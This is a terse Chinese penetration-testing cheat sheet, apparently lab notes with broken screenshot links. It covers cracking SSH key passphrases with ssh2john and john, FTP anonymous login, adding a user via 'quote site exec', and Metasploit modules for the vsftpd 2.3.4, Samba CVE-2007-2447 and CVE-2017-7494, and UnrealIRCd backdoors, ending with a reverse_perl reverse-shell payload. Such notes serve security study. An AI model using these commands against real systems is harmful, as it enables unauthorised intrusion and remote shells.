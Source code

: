 ![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image77.png){width="5.760416666666667in"
height="1.2467749343832022in"}

需要爆破ssh私钥密码

 使用ssh2john.py将[密钥](https://so.csdn.net/so/search?q=%E5%AF%86%E9%92%A5&spm=1001.2101.3001.7020)信息转换为john可识别信息

使用ssh2john id_rsa \> rsa

解密转化后可识别信息

john rsa

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image78.png){width="5.760416666666667in"
height="1.9455325896762905in"}

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image79.png){width="4.944444444444445in"
height="0.8952045056867891in"}

**FTP渗透**

anonymous匿名登录

**FTP提权如果ftp用户有执行权限，可以试试使用quote site exec**

例如： quote site exec net user temp temp /add

msfconsole:

**Vsftp_2.3.4笑脸 vsftpd_234_backdoor  权够大**

**Samba MS-RPC Shell命令注入漏洞(cve-2007-2447)**

**Samba 版本号3.x-4.x 权够大**

**search usermap_script**

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image80.png){width="5.760416666666667in"
height="1.3118503937007875in"}

S**amba 远程代码执行漏洞 (CVE-2017-7494)**

search is_known_pipename

影响：Samba 3.5+ \<4.6.4 \<4.5.10 \<4.4.14

![184394efb17e429f9efc1e11cc41acc9.jpg](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image81.jpeg){width="5.760416666666667in"
height="2.9114020122484687in"}

**Unreal UnreallRCd3.2.8.1后门漏洞**

search rihd

set payload cmd/unix/reverse_perl

set rhost

set lhost
